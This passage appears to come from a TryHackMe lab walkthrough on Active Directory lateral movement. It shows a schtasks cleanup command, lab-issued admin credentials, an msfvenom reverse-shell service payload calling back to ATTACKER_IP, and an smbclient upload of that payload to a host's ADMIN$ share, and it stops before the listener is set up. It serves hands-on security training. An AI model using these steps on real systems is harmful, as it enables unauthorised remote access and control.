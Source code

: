 Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

```shell-session
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

  

## Let's Get to Work!  

To complete this exercise, you will need to connect to THMJMP2 using the credentials assigned to you in Task 1 from [http://distributor.za.tryhackme.com/creds](http://distributor.za.tryhackme.com/creds). If you haven't done so yet, click on the link and get credentials now. Once you have your credentials, connect to THMJMP2 via SSH:

`ssh za\\<AD Username>@thmjmp2.za.tryhackme.com`

For this exercise, we will assume we have already captured some credentials with administrative access:

**User:** ZA.TRYHACKME.COM\t1_leonard.summers

**Password:** EZpass4ever

We'll show how to use those credentials to move laterally to THMIIS using `sc.exe`. Feel free to try the other methods, as they all should work against THMIIS.

While we have already shown how to use sc to create a user on a remote system (by using `net user`), we can also upload any binary we'd like to execute and associate it with the created service. However, if we try to run a reverse shell using this method, we will notice that the reverse shell disconnects immediately after execution. The reason for this is that service executables are different to standard .exe files, and therefore non-service executables will end up being killed by the service manager almost immediately. Luckily for us, msfvenom supports the `exe-service` format, which will encapsulate any payload we like inside a fully functional service executable, preventing it from getting killed.

To create a reverse shell, we can use the following command:

**Note:** Since you will be sharing the lab with others, you'll want to use a different filename for your payload instead of "myservice.exe" to avoid overwriting someone else's payload.

```shell-session
user@AttackBox$ msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe
```

We will then proceed to use t1_leonard.summers credentials to upload our payload to the ADMIN$ share of THMIIS using smbclient from our AttackBox:

```shell-session
user@AttackBox$ smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

Once our executable is uploaded, we will set up a listener on the attacker's machine to receive the reverse shell from `msfconsole`:

